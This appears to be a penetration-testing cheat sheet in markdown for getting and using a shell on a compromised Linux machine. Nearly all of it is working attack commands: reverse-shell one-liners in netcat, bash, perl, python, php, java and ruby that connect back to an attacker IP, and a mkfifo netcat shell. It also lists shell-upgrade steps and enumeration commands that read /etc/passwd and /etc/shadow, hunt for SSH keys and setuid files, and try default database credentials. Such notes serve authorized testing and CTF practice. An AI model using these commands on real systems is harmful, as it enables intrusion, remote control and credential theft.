 ## getting a reverse shell:-
### Try using netcat as follows:-
1. on your attacker machine set up a listener by:- nc -lvp "port"
2. on the compromised machine connect with the listener and spawn shell by:- nc -e /bin/bash "attacking machine IP" "port"

### If netcat doesnt work then use netcat to set up listener in the attacker machine via netcat and use the following to get a reverse shell back
/bin/bash -i >& /dev/tcp/IP/PORT 0>&1 (via bash)<br />
or<br />
perl -e 'use Socket;$i="IP";$p="PORT";socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};' (via perl)<br />
or<br />
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' (via python) <br />
or<br />
php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");' (via php)<br />
or<br />
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/IP/PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor() (via java)<br />
or<br />
ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/bash -i <&%d >&%d 2>&%d",f,f,f)' (via ruby)

## getting a tty shell:-
python -c ‘import pty; pty.spawn("/bin/bash")’<br />
or<br />
python3 -c ‘import pty; pty.spawn("/bin/bash")’<br />
or<br />
python -c ‘import pty; pty.spawn("/bin/sh")’<br />
or<br />
python3 -c ‘import pty; pty.spawn("/bin/bash")’<br />
or<br />
SHELL="/bin/bash" script -q /dev/null<br />

## getting a colored tty shell (after getting a tty shell):- 
#### *do this in your host machine because u need the length and breadth of the window of ur terminal*

stty -a <br />
#### *then do the following in the victim shell*<br />
export SHELL=/bin/bash<br />
export TERM=xterm256-color<br />
stty rows "rows u found in step1" columns "columns u found in step1"<br />

## Making the shell interactive:-

stty raw -echo

## the obvious stuff:-

history (to check the bash history)<br />
whoami (to check the current user)<br />
id <br />
hostname<br />
cat /etc/passwd<br />
sudo -l (to list all perms of the user)<br />
sudo --version (to check the version and see if it is vulnerable to any exploit)<br />

## about system and processes running:-

uname -a (to get the version of the kernel)<br />
cat /etc/shells 2>/dev/null (list available shells)<br />
ps aux 2>/dev/null<br />
find /etc/init.d/ \! -uid 0 -type f 2>/dev/null |xargs -r ls -la 2>/dev/null (init.d files not belonging to root)<br />
find /lib/systemd/ \! -uid 0 -type f 2>/dev/null |xargs -r ls -la 2>/dev/null (systemd files not belonging to root)<br />
mysql --version 2>/dev/null (to check the version of mysql if installed to check for any known vulnerabilities)<br />
mysqladmin -uroot -proot version 2>/dev/null (to check if default creds work)<br />
mysqladmin -uroot version 2>/dev/null (to check if no pass works)<br />
psql -V 2>/dev/null (to check the version of postgresql if installed to check for any known vulnerabilities)<br />

## about users:-

cat /etc/passwd 2>/dev/null<br />
lastlog (to get last login details of all user accounts)<br />
w (to check if any other user is currently logged on)<br />
cat /etc/group (to see if any user is part of other groups)<br />
cat /etc/shadow (if we r in the root or shadow group)<br />
cat /etc/master.passwd (same as /etc/shadow but for bsd)<br />
find /home -name .sudo_as_admin_successful 2>/dev/null (find who has sudoed earlier)<br />

## then find files owned by the user/group/root via the following:-

ls -l<br />
find / -user "username/root" -group "groupname" exec ls -lb 2>/dev/null<br />
locate "groupname"(sometimes can result in filenames having the groupname in it.....MIGHT BE INTERESTING!!)<br />

## then find files not owned by the user/group/root but have rights via the following:-

find / -readable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null (read rights)<br />
find / -writable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null (write rights)<br />
find / -executable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null (executable rights)<br />
find / -user root -perm -4000 2>/dev/null (for getting setuid files)<br />
find / -user root -perm -2000 2>/dev/null (for getting all setgid files)<br />
find / \( -name "id_dsa*" -o -name "id_rsa*" -o -name "known_hosts" -o -name "authorized_hosts" -o -name "authorized_keys" \) 2>/dev/null  (to get ssh info)<br />

## To download something from the internet or from intranet:-

Can do a wget or curl

## To get a netcat shell in bsd if -e flag is missing

mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc ip port > /tmp/f

## To locate a file 

locate <file_name>
